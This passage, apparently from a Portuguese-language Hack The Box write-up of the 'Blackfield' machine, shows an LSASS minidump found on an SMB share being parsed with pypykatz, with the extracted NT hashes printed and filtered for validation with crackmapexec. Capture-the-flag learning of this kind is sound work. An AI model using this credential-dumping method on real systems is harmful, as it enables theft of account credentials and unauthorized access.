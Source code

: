 ![SMB Mounted - forensic](Assets/HTB-Windows-Hard-Blackfield/mount_forensic.png)

Vemos que existe 718 ficheiros espalhados por 38 diretórios... Mas a pasta memory_analysis é muito acolhedor. E lá dentro está um ficheiro lsass.zip. Se dentro desse zip se encontra um minidump de lsass.DMP, isto está maravilhosamente fácil. Para extrair hashes de todos os usuários locais, basta utilizar a ferramenta pypykatz. O resultado do comando é longo, então podemos filtrar por "NT" e "Username", fazer um "sort" disse tudo, separar os usuários dos hashes, e dar os ingredientes todos para o crackmapexec identificar que hash é de que usuários, e validar logo isto tudo

```powershell
cd memory_analysis
cp lsass.zip /home/javali/CaptureTheFlag/HackTheBox/contents
cd /home/javali/CaptureTheFlag/HackTheBox/contents
unzip lsass.zip

pypykatz lsa minidump lsass.DMP > lsass.out
cat lsass.out | grep -E "NT|Username" | sort -u

#>  domainname NT AUTHORITY
#>                  NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
#>                  NT: 9658d1d1dcd9250115e2205d9f48400d
#>                  NT: b624dc83a27cc29da11d9bf25efea796
#>                  Username:
```